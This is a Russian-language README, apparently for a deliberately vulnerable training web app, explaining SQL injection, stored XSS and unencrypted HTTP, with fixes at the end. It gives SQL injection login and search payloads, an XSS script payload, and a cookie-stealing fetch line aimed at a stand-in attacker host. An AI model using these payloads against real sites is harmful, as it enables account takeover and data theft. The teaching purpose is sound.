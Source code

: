 

## Уязвимость 1: SQL Injection

### Описание

SQL Injection (SQL-инъекция) — это уязвимость, которая позволяет злоумышленнику выполнять произвольные SQL-запросы к базе данных, вводя специальные символы и SQL-код в форму или URL. В нашем коде уязвимость присутствует в запросах к базе данных, где пользовательский ввод напрямую используется для формирования SQL-запросов, например, в функциях авторизации и поиска пользователя.

### Эксплуатация

1. **Авторизация с SQL-инъекцией:**
   - Зайдите на страницу авторизации и введите следующие данные:
     - **Имя пользователя**: `admin' OR '1'='1`
     - **Пароль**: `password`
   - Запрос, сформированный в базе данных, будет выглядеть так:
     ```sql
     SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='password'
     ```
   - Из-за `OR '1'='1'` запрос вернёт первую запись в таблице `users`, позволяя авторизоваться без ввода корректного пароля.

2. **Поиск пользователя с SQL-инъекцией:**
   - Зайдите на главную страницу, выполните поиск и введите в поле поиска: `%' OR '1'='1`.
   - Это даст следующий запрос:
     ```sql
     SELECT * FROM users WHERE username LIKE '% %' OR '1'='1'
     ```
   - Условие `OR '1'='1'` вернёт все записи в таблице `users`, независимо от введённого имени пользователя.

3. **Опасность SQL-инъекции:**
   - SQL Injection может позволить злоумышленнику:
     - **Получить доступ к конфиденциальным данным**, таким как логины и пароли пользователей.
     - **Изменить данные**: добавить, изменить или удалить записи в базе данных.
     - **Удалить или разрушить базу данных**: с помощью команды `DROP TABLE`, что полностью разрушит структуру базы данных.
     - **Получить контроль над сервером**: некоторые SQL-инъекции могут быть использованы для выполнения команд на сервере, в случае, если злоумышленник получит доступ к системным функциям базы данных.

---

## Уязвимость 2: Stored XSS (Хранимая межсайтовая скриптовая инъекция)

### Описание

Stored XSS — это тип межсайтовой скриптовой инъекции, при котором вредоносный скрипт сохраняется на сервере и отображается для других пользователей. В нашем случае это достигается через форму отправки сообщений. Сообщения сохраняются без фильтрации HTML-кода, поэтому вредоносный JavaScript-код можно вставить прямо в сообщение, и при его отображении на странице он будет исполнен в браузере других пользователей.

### Эксплуатация

1. **Внедрение вредоносного скрипта:**
   - Зайдите на главную страницу, в поле для отправки сообщений введите следующий код:
     ```html
     <script>alert('XSS-атака!');</script>
     ```
   - Нажмите на кнопку «Post Message».
   - Этот скрипт будет сохранён в базе данных и отображён на странице без фильтрации. При просмотре страницы каждый пользователь увидит сообщение и в его браузере выполнится команда `alert`.

2. **Последствия Stored XSS:**
   - **Кража сессий**: злоумышленник может получить доступ к данным сессии других пользователей. Например, если они внедрят код для отправки cookies на свой сервер:
     ```html
     <script>fetch('http://attacker.com/steal?cookie=' + document.cookie);</script>
     ```
   - **Фишинг**: внедрение форм или перенаправлений для кражи личной информации.
   - **Обход авторизации**: злоумышленник может заставить пользователя выполнить произвольные действия от его имени.
   - **Распространение атак**: при публикации вредоносного скрипта на общей странице он будет отображаться каждому пользователю, увеличивая охват атаки.

---

## Уязвимость 3: Использование незащищённого HTTP

### Описание

Использование незащищённого HTTP-протокола означает, что данные передаются в виде обычного текста, без шифрования. Это позволяет злоумышленникам, перехватившим трафик (например, через публичный Wi-Fi), увидеть всю передаваемую информацию, включая логины, пароли и cookies сессии.

### Эксплуатация

1. **Перехват трафика через незащищённый HTTP (SOON REALIZ)**:
   - Злоумышленник может использовать инструмент перехвата трафика, такой как Wireshark, чтобы увидеть передаваемые данные.
   - В момент ввода логина и пароля злоумышленник может перехватить передаваемые данные и получить доступ к данным пользователя.
   - Cookie также передаются через HTTP без шифрования, что позволяет злоумышленнику скопировать идентификатор сессии и использовать его для входа от имени пользователя.

2. **Последствия использования незащищённого HTTP(SOON REALIZ)**:
   - **Кража логинов и паролей**: все данные передаются в открытом виде и могут быть перехвачены.
   - **Угон сессии(SOON REALIZ)**: перехваченные cookies позволяют злоумышленнику выполнять действия от имени пользователя, пока его сессия активна.
   - **Доступ к конфиденциальной информации(SOON REALIZ)**: при отправке данных, таких как личные сообщения, адреса и другие, они также могут быть перехвачены и использованы злоумышленником.

---

## Заключение

Эти уязвимости демонстрируют, как слабая защита данных и отсутствие фильтрации вводимой информации может привести к серьёзным последствиям. Вот несколько практик, которые могут помочь предотвратить эти уязвимости:

1. **Защита от SQL-инъекций**:
   - Используйте параметризованные запросы и ORM-библиотеки (например, SQLAlchemy).
2. **Защита от XSS**:
   - Фильтруйте или экранируйте пользовательский ввод с помощью `html.escape()`.
3. **Шифрование трафика**:
   - Обеспечьте HTTPS-соединение, установив SSL/TLS-сертификат на сервере.
